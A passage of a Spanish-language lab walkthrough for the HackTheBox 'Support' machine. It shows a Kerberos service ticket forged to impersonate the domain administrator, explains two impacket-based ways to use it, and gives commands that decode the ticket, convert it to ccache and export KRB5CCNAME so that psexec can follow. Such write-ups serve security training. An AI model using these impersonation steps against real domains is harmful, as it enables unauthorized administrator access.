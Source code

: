 ```batch
  LogonServer              : DC
  LogonServerDNSDomain     : support.htb
  UserPrincipalName        : support@support.htb
    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 9/28/2024 9:28:50 PM ; 9/29/2024 7:28:50 AM ; 10/5/2024 9:28:50 PM
      Server Name       : cifs/dc.support.htb @ SUPPORT.HTB
      Client Name       : administrator @ SUPPORT.HTB
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)
```
Ahí vemos que el ticket que se generó siendo un **Ticket de Servicio (TGS)**, que sirve para **suplantar al usuario Administrador**.

Con este ticket creado, podemos seguir con el ataque para loguearnos como el administrador. Esto es bastante similar al **Silver Ticket Attack**.

Podemos hacer esto de dos formas:

* *Primera Forma*: Utilizando la herramienta **ticketConverter.py** de **impacket**, que lo que hace es convertir los **archivos kirbi** (comúnmente utilizados por mimikatz) en **archivos ccache** utilizados por **impacket**, con esto usaremos el **path del archivo ccache** y lo exportaremos a la **variable KRB5CCNAME** para que podamos usar el ticket y autenticarnos en el **servicio Kerberos** sin contraseña usando **psexec.py**.

* *Segunda Forma*: Utilizando la herramienta **getST** de **impacket**, que nos va a generar un **Service Ticket (TGS) en un archivo ccache** y de igual forma, vamos a añadirlo a la **variable KRB5CCNAME** y a autenticarnos con **psexec.py**

Nada más antes de continuar, veamos que es un **archivo ccache**:

| **Archivo ccache** |
|:-----------:|
| *Un ccache (o Credential Cache) es un archivo o una ubicación en memoria donde el sistema operativo almacena los tickets de Kerberos obtenidos durante la autenticación de un usuario. Estos tickets se utilizan para autenticar al usuario en otros servicios dentro de una red sin necesidad de que este vuelva a ingresar sus credenciales (contraseña o token) repetidamente. Este mecanismo permite implementar Single Sign-On (SSO) de manera eficiente.* |

<br>

Creo que queda bastante claro, continuemos.

<br>

<h3 id="forma1">Primera Forma: Usando ticketConverter.py y psexec de Impacket Para Autenticarnos en Servicio Kerberos Como Administrador</h3>

* Copia el **hash en base64** y guardalo en un archivo llamado **ticket.kirbi.b64**:
```bash
echo "hash_base64" | tr -d " " > ticket.kirbi.b64
```

* Vamos a decodificar el ticket que está en **base64** con el comando `base64 -d` y lo guardamos en otro archivo:
```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

* Utilicemos la herramienta **ticketConverter.py** para crear el **archivo ccache** y lo exportamos a la **variable KRB5CCNAME**:
```bash
ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] converting kirbi to ccache...
[+] done
export KRB5CCNAME=ticket.ccache
```
